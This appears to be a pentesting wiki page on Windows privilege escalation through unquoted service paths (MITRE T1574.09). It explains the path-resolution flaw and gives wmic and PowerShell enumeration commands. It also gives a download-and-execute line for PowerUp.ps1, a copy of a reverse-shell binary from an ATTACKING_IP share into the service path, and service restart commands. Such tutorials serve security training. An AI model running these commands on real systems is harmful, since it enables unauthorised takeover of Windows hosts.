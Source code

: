 ```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Path Interception by Unquoted Path -
  Technique T1574.09
---
```


# Unquoted Service Path

## Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks. When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.

Here's an example to illustrate this, consider we have the following executable path:

```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```

In order to run SomeExecutable.exe, the system will interpret this path in the following order:

* C:\Program.exe
* C:\Program Files\A.exe
* C:\Program Files\A Subfolder\B.exe
* C:\Program Files\A Subfolder\B Subfolder\C.exe
* C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use wmic to enumerate it:

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Alternativly, we can use `Invoke-AllChecks` from PowerUp

```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`

```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can place your binary like:

```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}
